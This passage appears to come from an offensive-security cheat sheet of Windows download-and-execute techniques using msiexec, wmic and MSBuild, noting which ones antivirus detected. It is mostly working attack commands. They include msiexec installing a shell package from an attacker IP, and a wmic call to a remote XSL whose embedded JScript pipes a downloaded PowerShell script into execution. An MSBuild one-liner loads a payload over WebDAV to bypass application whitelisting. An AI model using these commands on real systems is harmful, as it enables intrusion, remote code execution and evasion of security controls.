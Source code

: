 Victim:

```text
victim> msiexec /quiet /i \\10.2.0.5\kali\shell.msi
```

**Detected**

## **Wmic**

```text
wmic os get /format:"https://webserver/payload.xsl"
```

Process performing network call: **wmic.exe**  
Payload written on disk: **IE local cache**

Example xsl file:

```text
<?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
<output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://10.2.0.5/shell.ps1') | powershell -noprofile -");
        ]]>
    </ms:script>
</stylesheet>
```

Extracted from [here](https://gist.github.com/Arno0x/fa7eb036f6f45333be2d6d2fd075d6a7)

**Not detected**

**You can download & execute very easily a Koadic zombie using the stager wmic**

## Msbuild

```text
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

Process performing network call: **svchost.exe**  
Payload written on disk: **WebDAV client local cache**

You can use this technique to bypass Application Whitelisting and Powershell.exe restrictions. As you will be prompted with a PS shell.  
Just download this and execute it: [https://raw.githubusercontent.com/Cn33liz/MSBuildShell/master/MSBuildShell.csproj](https://raw.githubusercontent.com/Cn33liz/MSBuildShell/master/MSBuildShell.csproj)

```text
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
